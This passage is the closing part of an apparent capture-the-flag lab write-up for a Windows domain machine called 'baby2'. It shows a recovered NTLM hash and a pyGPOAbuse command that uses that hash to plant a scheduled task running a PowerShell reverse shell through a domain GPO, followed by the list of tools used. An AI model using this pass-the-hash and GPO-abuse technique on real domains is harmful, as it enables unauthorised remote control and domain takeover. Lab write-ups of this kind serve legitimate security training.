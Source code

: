 ```
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 51B4E7AEE2FBDD4E36F2381115C8FE7A
```

<div style="page-break-after: always;"></div>

After that we have `GenericAll` on all of the Domain GPO's and can simply add a scheduled task with a powershell reverseshell via `pyGPOAbuse`

```
python3 pygpoabuse.py baby2.vl/gpoadm -hashes :51B4E7AEE2FBDD4E36F2381115C8FE7A -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 -powershell -command "powershell -e BASE64....."
```

After we created the scheduled task we start a listener on the specific Port and run `gpupdate /force` on the `amelia.griffiths` shell.

![[Pasted image 20240502233343.png]]

<div style="page-break-after: always;"></div>

# Tools used

| Tools      |
| ---------- |
| Powerview  |
| Whisker    |
| Rubeus     |
| pyGPOAbuse |


